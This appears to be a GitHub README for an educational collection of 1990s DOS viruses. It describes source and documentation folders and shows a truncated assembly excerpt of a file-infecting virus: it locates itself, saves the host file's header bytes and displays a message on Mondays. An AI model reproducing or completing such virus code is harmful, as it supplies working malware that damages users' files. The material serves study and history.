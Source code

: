 Computer Viruses
================

Last update: 1996 - 1997

This project contains education / informative materials about DOS viruses.

- The [/src](/src) folder contains a few DOS bases viruses created in assembly language
- The [/doc](/doc) folder contains information about DOS viruses and antiviruses

```assembly
lungime equ ((offset sfirsit)-(offset entry))
.model tiny
.code
org 100h
entry: call entr                                ; find in BP the address of the virus
entr   proc near
       pop bp
       sub bp,3
       mov byte ptr [cale+2-entry+bp],'C'

       mov cx,5                                 ; save the first 5 bytes
       mov si,offset header-entry               ; in memory
       add si,bp
       mov di,offset horig-entry
       add di,bp
       rep movsb

          mov ah,2ah
          int 21h
          cmp al,1                               ; display the message if monday
          jnz urmat
          mov ah,9
          mov dx,offset mesaj-entry
          add dx,bp
          int 21h

	...
```

![Analytics](https://ga-beacon.appspot.com/UA-2402433-14/beacon.en.html)
